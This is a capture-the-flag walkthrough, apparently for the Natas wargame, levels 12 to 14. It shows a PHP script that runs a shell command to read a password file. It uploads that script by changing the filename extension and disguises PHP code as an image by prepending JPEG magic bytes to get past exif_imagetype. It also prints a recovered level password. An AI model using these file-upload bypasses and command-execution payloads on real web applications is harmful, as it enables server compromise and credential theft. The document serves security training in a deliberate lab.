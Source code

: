 As we can see we have control over the final filename. Now let's create a php script to read the password in the `/etc/natas_webpass/natas13` file and print it. We can name the file `read13Pass.php`:

```php
<?php
$output=null;
$retval=null;
exec('cat /etc/natas_webpass/natas13', $output, $retval);
print_r($output);
?>
```

Now we can upload this file to the server. We can intercept and then edit the request with burp suite or any other proxy tool. In this case I'll just use the `Edit and Resend` feature of the browser's developer tools to edit the file name's extension to `.php`.

![password](pics/natas/2025-07-01-20-14-26.png)

Password: trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC

## Natas 14

> The page shows this form:  
> ![form](pics/natas/2025-07-01-20-16-15.png)  
> The source code now implements some kind of check on the extention of the uploaded file:  
> ```php
> if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
>     echo "File is not an image";
> }
> ```

If we look at how `exif_imagetype` works, we can see that it reads the first bytes of the image file to determine its type based on its signature (not the file extension). This means we can bypass the extension check by uploading a file with a valid image signature, even if the file itself is not a valid image (a script for example).

To do this, we can craft a valid JPEG file and then append our PHP code to it:

```bash
echo -n -e "\xFF\xD8\xFF\xE0\x00\x10JFIF\x00\x01\x01\x01\x00\x60\x00\x60\x00\x00" > image.jpg
cat read14pass.php >> image.jpg
mv image.jpg read14passImage.php
```
